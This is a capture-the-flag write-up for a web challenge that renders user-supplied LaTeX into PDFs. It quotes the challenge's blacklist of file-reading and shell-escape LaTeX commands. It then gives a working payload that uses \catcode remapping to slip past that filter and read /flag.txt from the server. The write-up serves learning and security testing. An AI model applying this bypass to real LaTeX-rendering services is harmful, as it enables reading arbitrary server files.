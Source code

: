 # Latex

When visiting the website, we see it’s a simple form enabling us to input LaTeX code and get a PDF file showing the output:

![Screenshot from 2023-10-13 22.56.08.png](./media/Screenshot_from_2023-10-13_22.56.08.png)

When reading the source code, we come across `main.go`, which holds the LaTeX logic of the website. `main.go` holds a list of commands that it considers as insecure:

```go
blacklist = []string{"\\input", "include", "newread", "openin", "file", "read", "closein", "usepackage", "fileline", "verbatiminput", "url", "href", "text", "write", "newwrite", "outfile", "closeout", "immediate", "|", "write18", "includegraphics", "openout", "newcommand", "expandafter", "csname", "endcsname", "^^"}
```

So normally when we are talking filters that are used ******************before****************** the code has actually been executed, we consider:

- Maybe we can bypass the filter by encoding the payload?
- Maybe we can insert some characters that make the payload pass the filter, but LaTeX ignores?

We tried both these without digging too much, didn’t work.

Another thing we saw was:

> Why does `\input` include the backslash in the blacklist, while other commands don’t? Maybe we can find a way to include something between \ and input to make it pass the filter.
>

Then I came across this thing called [catcode](https://en.wikibooks.org/wiki/TeX/catcode), a command that essentially changes the “meaning” of a character. A simple PoC showed that it worked:

```latex
\documentclass[12pt]{article}
\begin{document}
\catcode`\@=0
@underline{hello}
\end{document}
```

![Screenshot 2023-10-13 at 23-07-20 http __localhost 52132_.png](./media/Screenshot_2023-10-13_at_23-07-20_http___localhost_52132_.png)

**The challenges we needed to solve were:**

- Execute `\input{/flag.txt}` by adding a char in-between or changing the meaning of `\`
- Change the meaning of `{`, `_` and `}` since they are included in the flag
- `{` and `}` still need to be available though, because they are used for the `{/flag.txt}` part

I ended up with the following payload:

```latex
\documentclass{article}
\begin{document}
\catcode`\@=0
\catcode`\{=9
\catcode`\}=9
\catcode`\_=13
\catcode`\?=1
\catcode`\!=2
@input?/flag.txt!
\catcode`\{=1
\catcode`\}=2
\catcode`\_=8
\catcode`\$=3
\catcode`\?=12
\catcode`\!=12
\end{document}
```

Which gave us the flag:

![Screenshot 2023-10-13 at 23-12-52 http __ctf.tcp1p.com 52132_.png](./media/Screenshot_2023-10-13_at_23-12-52_http___ctf.tcp1p.com_52132_.png)

Flag: `TCP1P{bypassing_latex_waf_require_some_latex_knowledge}`
